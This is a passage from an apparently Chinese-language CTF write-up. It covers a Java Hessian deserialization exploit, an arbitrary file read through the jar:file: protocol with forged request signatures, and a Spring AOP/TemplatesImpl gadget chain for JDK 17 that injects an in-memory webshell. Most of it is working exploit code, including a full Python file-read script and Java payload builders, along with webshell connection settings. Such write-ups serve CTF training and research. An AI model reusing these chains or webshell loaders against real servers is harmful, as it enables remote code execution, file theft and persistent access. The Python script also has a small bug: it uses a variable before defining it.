AAACAADADwAPgA6AAgBZwAXAAEBaQAAABUAAgAAAAAACbsAAlm3AWhXsQAAAAAAAA==');var a=Java.type('int').class;var m=java.lang.ClassLoader.class.getDeclaredMethod('defineClass',Java.type('byte[]').class,a,a);m.setAccessible(true);m.invoke(java.lang.Thread.currentThread().getContextClassLoader(),b,0,b.length).newInstance();}catch (e){}\")}", new Object[0], null);
        Object right = nodeCons.newInstance(proxy, new Object[0], node);
        setField(node, "right", right);
        setField(m, "root", node);
        System.out.println("[+] Payload constructed.");

        // =============================================================
        // 5. 序列化 (模拟攻击者发送)
        // =============================================================
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(baos);
        // Hessian 序列化时会处理 Unsafe/Non-Serializable 对象
        out.getSerializerFactory().setAllowNonSerializable(true);

        out.writeObject(m);
        out.flush();
        byte[] payloadBytes = baos.toByteArray();
        System.out.println("[+] Serialized size: " + payloadBytes.length + " bytes");
        System.out.println(Base64.getEncoder().encodeToString(payloadBytes));

        // =============================================================
        // 6. 反序列化 (模拟受害者接收)
        // =============================================================
        System.out.println("[*] Deserializing...");
        ByteArrayInputStream bais = new ByteArrayInputStream(payloadBytes);
        Hessian2Input input = new Hessian2Input(bais);
        input.getSerializerFactory().setAllowNonSerializable(true);

//        Object deserializedProxy = input.readObject();

        System.out.println("[+] Done. Check for calculator process.");
    }

    /**
     * 使用 ReflectionFactory 绕过构造函数实例化对象
     * 模拟 Unsafe.allocateInstance 的行为
     */
    public static Object createWithoutConstructor(Class<?> clazz) throws Exception {
        ReflectionFactory rf = ReflectionFactory.getReflectionFactory();
        Constructor<?> objDef = Object.class.getDeclaredConstructor();
        Constructor<?> intConstr = rf.newConstructorForSerialization(clazz, objDef);
        return clazz.cast(intConstr.newInstance());
    }

    /**
     * 反射设置私有字段
     */
    public static void setField(Object obj, String fieldName, Object value) throws Exception {
        Field field = getFieldRecursively(obj.getClass(), fieldName);
        if (field == null) {
            throw new NoSuchFieldException(fieldName);
        }
        field.setAccessible(true);
        field.set(obj, value);
    }

    private static Field getFieldRecursively(Class<?> clazz, String fieldName) {
        Class<?> c = clazz;
        while (c != null) {
            try {
                return c.getDeclaredField(fieldName);
            } catch (NoSuchFieldException e) {
                c = c.getSuperclass();
            }
        }
        return null;
    }
}
```

```http
POST /deserialize HTTP/1.1
Host: localhost:12333
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Mode: navigate
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
sec-ch-ua: "Google Chrome";v="143", "Chromium";v="143", "Not A(Brand";v="24"
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded

{{base64d()}}
```



```text
基础信息:
加密器: JAVA_AES_BASE64
密码: CwHkwlKcuu
密钥: DCjbbquPTU
请求路径: /*
请求头: Accept: HPncVeC
```






## NetWatcher

从 `jar:file:` 文件读取进入应用分析，再研究受限反序列化链。

### 漏洞分析

网站首页存在任意文件读取漏洞：`file` 协议被过滤，但 `jar` 协议没有。根据题目提示，应用位于 `/app/app.jar`。



通过 `jar:file:/app/app.jar!/` 读取文件，根据报错确定 `PreviewController` 在 JAR 中的路径。



### 读取 JAR 中的文件

编写脚本读取 JAR 中的文件：

```python
import requests
import base64
import json
import argparse
import hashlib
import time
from bs4 import BeautifulSoup
import sys
import os

# --- Configuration (can be overridden by command line args) ---
TARGET_URL = "http://localhost:8080/api/preview"
SALT = "S4lt_B4e_Is_O1d_Sch00l_But_Java_Is_Eternal"
JAR_PATH = "/app/app.jar"

def generate_signature(url, timestamp, salt):
    data_to_sign = f"{url}{timestamp}{salt}"
    return hashlib.md5(data_to_sign.encode('utf-8')).hexdigest()

def exploit(target_url, file_to_read, jar_path, salt):
    print(f"[*] Target URL: {target_url}")
    print(f"[*] File to read on server: {file_to_read}")
    print(f"[*] Using JAR path: {jar_path}")
    print(f"[*] Using SALT: {salt[:10]}...")

    attack_url = f"jar:file:{jar_path}!{file_to_read}"
    timestamp = int(time.time() * 1000)
    signature = generate_signature(attack_url, timestamp, salt)
    print(f"[*] Generated signature: {signature}")

    payload = {
        "url": attack_url,
        "timestamp": timestamp,
        "signature": signature
    }
    json_payload_str = json.dumps(payload)
    print(f"[*] Constructed JSON Payload: \n{json.dumps(payload, indent=2)}")
    encoded_payload = base64.b64encode(json_payload_str.encode('utf-8')).decode('utf-8')

    headers = {"Content-Type": "text/plain;charset=UTF-8"}
    try:
        print("\n[*] Sending request to server...")
        response = requests.post(target_url, data=encoded_payload, headers=headers, timeout=15)
        response.raise_for_status()
    except requests.exceptions.RequestException as e:
        print(f"\n[!] Request failed: {e}")
        print(response.text)
        sys.exit(1)

    print("[*] Server responded successfully.")

    soup = BeautifulSoup(response.text, 'html.parser')

    # --- START OF MODIFIED SECTION ---
    # The new HTML structure puts the result in a <textarea> inside a <div> with class 'alert-success'.
    base64_content = None
    success_div = soup.find('div', class_='alert-success')
    if success_div:
        textarea = success_div.find('textarea')
        if textarea:
            base64_content = textarea.get_text(strip=True)
            print("[*] Successfully extracted Base64 content from <textarea>.")
        else:
            print("[!] Found a success alert div, but no <textarea> inside it.")
    # --- END OF MODIFIED SECTION ---

    if not base64_content:
        # Fallback to check for an error message
        error_div = soup.find('div', class_='alert-danger')
        if error_div:
            error_message = error_div.get_text(strip=True)
            print(f"\n[!] Server returned an error: {error_message}")
        else:
            print("\n[!] Could not find result content in the response.")
            print("[!] Debugging - Full response HTML:")
            print(response.text)
        return None

    try:
        decoded_content = base64.b64decode(base64_content).decode('utf-8', errors='ignore')

        # --- 新增的自动保存逻辑 (文本文件) ---
        # 从完整路径中提取基本文件名 (e.g., /BOOT-INF/classes/application.properties -> application.properties)
        output_filename = os.path.basename(file_to_read)

        # 防止文件名为空 (如果读取的是 "/")
        if not output_filename:
            output_filename = "downloaded_root.txt"

        with open(output_filename, 'wb') as f: # 使用 'wb' 模式写入二进制
            f.write(decoded_bytes)
        print(f"[+] Text content automatically saved to: {output_filename}")
        # --- 结束新增逻辑 ---

        return decoded_content
    except Exception as e:
        # 如果UTF-8解码失败，则认为是二进制数据
        print(f"[!] Failed to decode as text: {e}. Assuming binary data.")
        decoded_bytes = base64.b64decode(base64_content)

        # --- 新增的自动保存逻辑 (二进制文件) ---
        output_filename = os.path.basename(file_to_read)

        if not output_filename:
            output_filename = "downloaded_root.bin"

        with open(output_filename, 'wb') as f: # 使用 'wb' 模式写入二进制
            f.write(decoded_bytes)
        print(f"[+] Binary content automatically saved to: {output_filename}")
        # --- 结束新增逻辑 ---

        return decoded_bytes

# The rest of the script (main block) remains the same
if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Exploit for NetWatcher LFI via jar:file:// protocol with signature bypass.")
    parser.add_argument("file", help="Absolute path of the file to read inside the JAR (e.g., /src/main/java/org/ctf/netwatcher/controller/AdminController.java)")
    parser.add_argument("--url", default=TARGET_URL, help=f"The target API endpoint (default: {TARGET_URL})")
    parser.add_argument("--jar-path", default=JAR_PATH, help=f"Absolute path to the JAR on the server (default: {JAR_PATH})")
    parser.add_argument("--salt", default=SALT, help="The secret salt for signature generation.")
    parser.add_argument("-o", "--output", help="Output file to save the content.")

    args = parser.parse_args()

    file_content = exploit(args.url, args.file, args.jar_path, args.salt)

    if file_content:
        print("\n" + "="*50)
        print("          FILE CONTENT          ")
        print("="*50)

        if isinstance(file_content, bytes):
            print("[Content is binary data]")
            if args.output:
                 try:
                    with open(args.output, 'wb') as f: f.write(file_content)
                    print(f"\n[+] Binary content successfully saved to {args.output}")
                 except Exception as e: print(f"\n[!] Error saving binary file: {e}")
            else:
                print("[!] Rerun with -o <filename> to save binary content.")
        else:
            print(file_content)
            print("="*50)
            if args.output:
                try:
                    with open(args.output, 'w', encoding='utf-8') as f: f.write(file_content)
                    print(f"\n[+] Content successfully saved to {args.output}")
                except Exception as e: print(f"\n[!] Error saving text file: {e}")
```

```bash
python exp.py --url http://localhost:12338/api/preview /BOOT-INF/classes/org/ctf/netwatcher/controller/PreviewController.class
python exp.py --url http://localhost:12338/api/preview /META-INF/maven/org.ctf/netwatcher/pom.xml
python exp.py --url http://localhost:12338/api/preview /BOOT-INF/classes/application.properties
```

### 发现反序列化入口

根据注解发现 `AdminController` 路由：



```bash
python exp.py --url http://localhost:12338/api/preview /BOOT-INF/classes/org/ctf/netwatcher/controller/AdminController.class
```



再读取内部类 `AdminController$SecureObjectInputStream`：

```bash
 python exp.py --url http://localhost:12338/api/preview '/BOOT-INF/classes/org/ctf/netwatcher/controller/AdminController$SecureObjectInputStream.class'
```



`pom.xml` 中存在 `springboot-aop` 依赖：

```xml
        <dependency>
            <groupId>org.aspectj</groupId>
            <artifactId>aspectjweaver</artifactId>
            <version>1.9.8</version>
        </dependency>
```

### 构造利用链

编写 PoC，绕过 JDK 17 的限制并加载 `TemplatesImpl` 和内存马：

```java
package org.example.springbootdestest.poc;

import org.example.springbootdestest.poc.UnSafeTools;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import javassist.CtNewConstructor;
import org.springframework.aop.Advisor;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.framework.DefaultAdvisorChainFactory;
import org.springframework.aop.support.DefaultIntroductionAdvisor;
import org.springframework.aop.target.SingletonTargetSource;
import sun.misc.Unsafe;

import org.aopalliance.aop.Advice;
import org.aopalliance.intercept.MethodInterceptor;
import org.springframework.aop.Advisor;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.framework.DefaultAdvisorChainFactory;
import org.springframework.aop.support.DefaultIntroductionAdvisor;

import javax.swing.event.EventListenerList;
import javax.swing.undo.CompoundEdit;
import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import java.lang.reflect.*;
import java.util.ArrayList;
import java.util.List;
import java.util.Map;
import java.util.Vector;

public class SpringBootAOPWithJDK17 {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();

        ClassLoader appClassLoader = ClassLoader.getSystemClassLoader();
        pool.insertClassPath(new javassist.LoaderClassPath(appClassLoader));
//
//        ctClass.addConstructor(
//                CtNewConstructor.make("public Calc() { Runtime.getRuntime().exec(\"touch /tmp/pwn-jetty\"); }", ctClass)
//        );
        CtClass ctClass = pool.get("mem.SpringRequestMappingMemshell");
        CtClass ctClass1 = pool.makeClass("Calc");

        byte[] bytecode = ctClass.toBytecode();
        byte[] bytecode1 = ctClass1.toBytecode();

        Class<?> aClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        patchModule(SpringBootAOPWithJDK17.class, aClass);
        Object templates = ReflectTools.createWithoutConstructor(aClass);
        UnSafeTools.setObject(templates, aClass.getDeclaredField("_name"), "sk");
        UnSafeTools.setObject(templates, aClass.getDeclaredField("_sdom"), new ThreadLocal());
//        UnSafeTools.setObject(templates, aClass.getDeclaredField("_tfactory"), UnSafeTools.newClass(Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl")));
        UnSafeTools.setObject(templates, aClass.getDeclaredField("_bytecodes"), new byte[][]{bytecode, bytecode1});
//        UnSafeTools.setObject(templates, aClass.getDeclaredField("_bytecodes"), new byte[][] {TomcatEcho.testCalc()});

        SingletonAspectInstanceFactory singletonAspectInstanceFactory = new SingletonAspectInstanceFactory(templates);
        Class<?> bClass = Class.forName("org.springframework.aop.aspectj.AspectJAroundAdvice");

        patchModule(SpringBootAOPWithJDK17.class, bClass);
        AspectJAroundAdvice aspectJAroundAdvice = ReflectTools.createWithoutConstructor(AspectJAroundAdvice.class);
        UnSafeTools.setObject(aspectJAroundAdvice, getField(bClass,"aspectInstanceFactory"), singletonAspectInstanceFactory);
        UnSafeTools.setObject(aspectJAroundAdvice, getField(bClass,"declaringClass"), Templates.class);
        UnSafeTools.setObject(aspectJAroundAdvice, getField(bClass,"methodName"), "getOutputProperties");
        UnSafeTools.setObject(aspectJAroundAdvice, getField(bClass,"parameterTypes"), new Class[0]);
//        Method targetMethod = Reflections.getMethod(TemplatesImpl.class,"newTransformer",new Class[0]);
//        UnSafeTools.setObject(aspectJAroundAdvice,"aspectJAdviceMethod",targetMethod);

        Class<?> cClass = Class.forName("org.springframework.aop.aspectj.AspectJExpressionPointcut");
        patchModule(SpringBootAOPWithJDK17.class, cClass);
        AspectJExpressionPointcut aspectJExpressionPointcut = (AspectJExpressionPointcut) ReflectTools.createWithoutConstructor(cClass);
        UnSafeTools.setObject(aspectJAroundAdvice, getField(bClass,"pointcut"), aspectJExpressionPointcut);
        UnSafeTools.setInt(aspectJAroundAdvice, getField(bClass,"joinPointArgumentIndex"), -1);
        UnSafeTools.setInt(aspectJAroundAdvice, getField(bClass,"joinPointStaticPartArgumentIndex"), -1);


        Class<?> jdkDynamicAopProxyClass = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        patchModule(SpringBootAOPWithJDK17.class, jdkDynamicAopProxyClass);
        Constructor<?> proxyConstructor = jdkDynamicAopProxyClass.getDeclaredConstructor(AdvisedSupport.class);
        proxyConstructor.setAccessible(true);
        AdvisedSupport advisedSupport1 = new AdvisedSupport();
        advisedSupport1.setTarget(aspectJAroundAdvice); // setTarget 内部会创建一个 SingletonTargetSource

        // 1.3. 通过反射调用构造函数，创建 JdkDynamicAopProxy 实例
        InvocationHandler jdkDynamicAopProxy1 = (InvocationHandler) proxyConstructor.newInstance(advisedSupport1);

        // 2. 创建第一个动态代理 proxy1，它实现了 Advisor 和 MethodInterceptor 接口
        // 原始代码: Object proxy1 = Proxy.makeGadget(jdkDynamicAopProxy1, Advisor.class, MethodInterceptor.class);

        // 使用标准的 java.lang.reflect.Proxy.newProxyInstance 方法
        Object proxy1 = Proxy.newProxyInstance(
                SpringBootAOPWithJDK17.class.getClassLoader(), // 当前类的 ClassLoader
                new Class[]{Advisor.class, MethodInterceptor.class}, // 需要代理的接口列表
                jdkDynamicAopProxy1 // InvocationHandler
        );

        // 3. 创建 Advisor，并将 proxy1 作为 Advice 传入
        // 这部分逻辑与原始代码相同，因为不涉及复杂的反射
        Advisor advisor = new DefaultIntroductionAdvisor((Advice) proxy1);
        List<Advisor> advisors = new ArrayList<>();
        advisors.add(advisor);

        // 4. 创建第二个 AdvisedSupport 实例，并用反射设置其私有字段
        AdvisedSupport advisedSupport2 = new AdvisedSupport();
        DefaultAdvisorChainFactory advisorChainFactory = new DefaultAdvisorChainFactory();

        // 4.1. 使用反射设置 'advisors' 字段
        // 原始代码: Reflections.setFieldValue(advisedSupport,"advisors",advisors);
        // 注意：'advisors' 字段定义在 AdvisedSupport 的父类 ProxyConfig 中
        UnSafeTools.setObject(advisedSupport2,  getField(advisedSupport2.getClass(),"advisors"), advisors);
        UnSafeTools.setObject(advisedSupport2,  getField(advisedSupport2.getClass(),"advisorChainFactory"), advisorChainFactory);

        // 5. 创建第二个 JdkDynamicAopProxy 实例
        // 原始代码: InvocationHandler jdkDynamicAopProxy2 = (InvocationHandler) JdkDynamicAopProxyNode.makeGadget("ape1ron", advisedSupport);

        // 5.1. 为第二个 AdvisedSupport 实例设置一个目标对象
        advisedSupport2.setTargetSource(new SingletonTargetSource("ape1ron")); // 目标对象可以是任意对象，这里用一个字符串

        // 5.2. 复用之前获取的构造函数，创建第二个 JdkDynamicAopProxy 实例
        InvocationHandler jdkDynamicAopProxy2 = (InvocationHandler) proxyConstructor.newInstance(advisedSupport2);

        // 6. 创建第二个动态代理 proxy2，它实现了 Map 接口
        // 原始代码: Object proxy2 = Proxy.makeGadget(jdkDynamicAopProxy2, Map.class);

        Object proxy2 = Proxy.newProxyInstance(
                Proxy.class.getClassLoader(),
                new Class[]{Map.class}, // 代理 Map 接口
                jdkDynamicAopProxy2
        );


        EventListenerList list2 = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) UnSafeTools.getObject(manager, CompoundEdit.class.getDeclaredField("edits"));
        vector.add(proxy2);
        UnSafeTools.setObject(list2, EventListenerList.class.getDeclaredField("listenerList"), new Object[]{InternalError.class, manager});
//        proxy.toString();
        System.out.printf(SerialTools.base64Serial(list2) + "\n");

        SerialTools.fileSerial(list2);
        SerialTools.fileDeSerial();
    }

    private static void patchModule(Class clazz, Class goalclass) {
        try {
            Class UnsafeClass = Class.forName("sun.misc.Unsafe");
            Field unsafeField = UnsafeClass.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe) unsafeField.get(null);
            Object ObjectModule = Class.class.getMethod("getModule").invoke(goalclass);
            Class currentClass = clazz;
            long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(currentClass, addr, ObjectModule);
        } catch (Exception e) {
        }
    }
    public static Field getField(Class clazz,String fieldName) throws NoSuchFieldException {

        while (true){
            Field[] fields = clazz.getDeclaredFields();
            for(Field field:fields){
                if(field.getName().equals(fieldName)){
                    return field;
                }
            }
            if(clazz == Object.class){
                break;
            }
            clazz = clazz.getSuperclass();
        }
        throw new NoSuchFieldException(fieldName);
    }
    public static Object getFieldValue(Object obj,String filedName) throws NoSuchFieldException, IllegalAccessException {
        Field field = getField(obj.getClass(),filedName);
        field.setAccessible(true);
